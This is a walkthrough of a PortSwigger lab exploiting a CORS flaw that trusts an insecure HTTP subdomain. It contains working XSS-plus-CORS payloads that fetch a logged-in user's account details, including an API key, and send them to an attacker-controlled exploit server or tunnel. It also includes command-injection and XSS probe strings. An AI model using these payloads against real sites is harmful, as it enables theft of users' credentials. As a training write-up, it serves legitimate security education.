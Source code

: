 ```yaml
--- 
title: "CORS Vulnerability With Trusted Insecure Protocols"
author: ""
date: 2024-02-27T17:43:34+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a130058040d652e81193421003200fb.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a130058040d652e81193421003200fb.web-security-academy.net"
crawl_links() {
  local url="$1"
  page_links=$(curl -s "$url" | grep -o 'href="[^"]*"' | cut -d'"' -f2)
  for path in $page_links; do
    full_url="${url}${path}"
    echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$full_url")"
    subpage_links=$(curl -s "$full_url" | grep -oP "(http|https)://\S+(?=['\"])")
    for sublinks in $subpage_links; do
      echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null "$sublinks")"
    done
  done
}
crawl_links "$URL"
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set. Also observed a subdomain url that raised a 400 Bad Request which returns a 200 status when a value of 1 is inserted in the storeId parameter.

![Enumeration](/images/cors3/01-enumerate-index-route.png "Enumeration")  

#### Exploration
Explored `/?productId=20&storeId=` of the publicly accessible `stock` subdomain. Testing for Operating System Command Injection (OSCI) with `id` and `whoami` respectively, and Cross Site Scripting (XSS) with `<script>alert(1)</script>` and `<script>alert(2)</script>` respectively to discover the `productId` was vulnerable to XSS.

![Exploration](/images/cors3/02-explore-trusted-insecure-protocols.png "Exploration") 

Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, null and the subdomain. Observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

#### Exploitation
Now exploit yourself while logged in with the below scripts. This requires a tls exploit server
```shell
<html lang="en">
<body>
  <script>
    var appServer = '0a130058040d652e81193421003200fb.web-security-academy.net';
    var exploitServer = 'https://ead23724e78d41.lhr.life/?log=';
    var productId = `<script>fetch('https://${appServer}/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>{fetch('${exploitServer}'+ data)}).catch(error=>alert(error));<\/script>`;
    window.location = `http://stock.${appServer}/?productId=${encodeURIComponent(productId)}&storeId=1`;
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html and on a seperate terminal expose it for global access with `ssh -o StrictHostKeyChecking=no -R 80:localhost:8000 nokey@localhost.run`. Then run `google-chrome https://ead23724e78d41.lhr.life` or even `google-chrome "http://stock.0a130058040d652e81193421003200fb.web-security-academy.net/?productId=<script>fetch('https://0a130058040d652e81193421003200fb.web-security-academy.net/accountDetails',{credentials:'include'}).then(res=>res.text()).then(data=>alert(data));</script>&storeId=1"` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html>
<body>
  <script>
    var appServer = "0a130058040d652e81193421003200fb.web-security-academy.net";
    var exploitServer = "exploit-0a44002f04486514816533fd01e70075.exploit-server.net";
    var productId = `<script>var xhr = new XMLHttpRequest();xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://${exploitServer}/log=' %2b xhr.responseText)};};xhr.open('GET', 'https://${appServer}/accountDetails', true); xhr.withCredentials = true;xhr.send();%3c/script>`;
    document.location = `http://stock.${appServer}/?productId=${productId}&storeId=1`;
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors3/03-exploit-trusted-insecure-protocols.png "Exploitation") 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors3/04-exfiltrate-trusted-insecure-protocols-spoil.png "Exfiltration") 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22LdfibNvk2PryjBjiILDF6c7jJlgtMBKL%22,%20%20%22sessions%22:%20[%20%20%20%20%22lbUa9NrpLLfrfnpcRkXcV3MxwgO0TyTn%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-insecure-protocols-spoil.json
```

![Solution](/images/cors3/05-lab-solution.png "Solution") 

#### Resources
- https://portswigger.net/web-security/cors/lab-breaking-https-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/03-cors-vulnerability-with-trusted-insecure-protocols